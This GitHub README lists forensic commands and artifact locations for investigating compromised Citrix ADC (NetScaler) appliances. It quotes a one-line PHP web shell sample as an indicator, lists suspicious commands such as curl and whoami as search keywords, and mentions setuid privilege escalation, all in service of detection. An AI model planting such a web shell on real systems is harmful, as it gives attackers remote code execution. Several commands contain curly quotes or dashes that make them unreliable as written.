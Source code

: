 # Citrix ADC Forensics
This repository provides a comprehensive list of commands & artifacts to search for while performing a forensic investigation on Citrix ADC appliances. Contributions are welcome.<br>

# To-Do
I will make a wrapper around these commands and provide an `.sh` file.

# Forensics

Generally located log files:
```
/var/log/*
```

Failed authentication attempts
```
zcat /var/log/ns.log.*.gz | grep "Authentication is rejected" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; print $0}' | sort | uniq -c | sort -nr
```

SSH logs
```
zcat /var/log/auth.log.*.gz | grep -i "sshd" | grep -i "accepted password" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; sub(/^[[:space:]]+/, ""); print "Accepted password for " $0}' | uniq -c | sort -nr
```

Search for suspicious commands
```
curl
hostname
uname
nobody
whoami
id
```

Search for suspicious activity in the http logs
```
/var/log/httpaccess.log
/var/log/httperror.log
```

Look for suspicious files in these directories. Payloads are often placed here.
```
/netscaler/portal/templates
/var/tmp/netscaler/portal/templates
```

Look for processes and child processes
```
ps aux
ps aux | grep nobody
```

Look for cronjobs and also the cron history
```
crontab -l -u nobody
crontab -l -u nsroot
crontab -l -u root

/var/log/cron
```

Look for unauthorized modifications to the crontab file and/or existence of suspicious files in /var/cron/tabs and other locations
```
find / -type f -name “res*” | grep -E ‘res($|\.[a-z]{3})$’
```

Check the file integrity with a md5 sum. Compare them with a 100% secure ADC.
```
cd /netscaler ; for i in “nsppe nsaaad nsconf nsreadfile nsconmsg”; do md5 ${i} ; done
```

Check for APT5 techniques. This should provide no output. If yes, potential compromise.
```
procstat –v $(pgrep –o –i nsppe) | grep “0x10400000 “ | grep “rwx”
```

Check for unusual administrator activity. You can look for the `pb_policy` in the `ns.log` file.
```
Example:

<local0.info> [hostname] pb_policy: Changing pitboss policy from X to Y
<local0.info> [hostname] pb_policy: Changing pitboss policy from Y to X

X & Y are constant values for you system
```

Check for potential PHP WebShells
```
/var/netscaler/logon/LogonPoint/uiareas/[FILE].php


content could be something like this:
<?php http_response_code(201); @eval($_POST[5]);

Look out in the httpaccess.log file for POST requests for the /logon/LogonPoint URL

Commmand1

fgrep -a -e http_response_code -e '$_POST' -r /var/netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command2

fgrep -a -e http_response_code -e '$_POST' -r /var/vpn/ | fgrep -v -e' /var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command3

fgrep -a -e http_response_code -e '$_POST' -r /netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'
```

Check for php files excluding folders that have PHP files from them by default
```
find / -type f -name *.php* -not -path "/var/netscaler/gui/admin_ui/*" -not -path "/netscaler/websocketd/*" -not -path "/netscaler/ns_gui/admin_ui/*"
```

Search for *setuid* binaries. This is a setuid Privilege Escalation technique.
```
find / -perm -4000 -user root -exec ls -lc {} \;

normal files which have the setuid bit set

-r-sr-xr-x 1 root wheel 27872 Jul 10 18:24 /netscaler/ping   
-r-sr-xr-x 1 root wheel 32656 Jul 10 18:24 /netscaler/ping6   
-r-sr-xr-x 1 root wheel 31844 Jul 10 18:24 /netscaler/traceroute  
-r-sr-xr-x 1 root wheel 24784 Jul 10 18:24 /netscaler/traceroute6   
-r-sr-xr-- 1 root operator 10584 Jul 10 18:09 /sbin/mksnap_ffs   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/shutdown   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/poweroff   
-r-sr-xr-x 1 root wheel 34352 Jul 10 18:09 /usr/bin/crontab   
-r-sr-xr-x 1 root wheel 11632 Jul 10 18:09 /usr/bin/lock   
-r-sr-xr-x 1 root wheel 24552 Jul 10 18:09 /usr/bin/login   
-r-sr-xr-x 1 root wheel 9736 Jul 10 18:09 /usr/bin/passwd   
-r-sr-xr-x 1 root wheel 16408 Jul 10 18:09 /usr/bin/su   
-r-sr-xr-x 1 root wheel 74008 Jul 10 18:09 /usr/libexec/ssh-keysign
```

# References
2024-01-26, https://trustedsec.com/blog/netscaler-remote-code-execution-forensics<br>
2024-01-26, https://www.mandiant.com/resources/blog/session-hijacking-citrix-cve-2023-4966<br>
2024-01-26, https://support.citrix.com/article/CTX227560/citrix-adc-logs-collection-guide<br>
2024-01-26, https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-201a<br>
2024-01-26, https://www.nextron-systems.com/2020/01/14/automated-citrix-netscaler-forensic-analysis-with-thor/<br>
2024-01-26, https://media.defense.gov/2022/Dec/13/2003131586/-1/-1/0/CSA-APT5-CITRIXADC-V1.PDF<br>
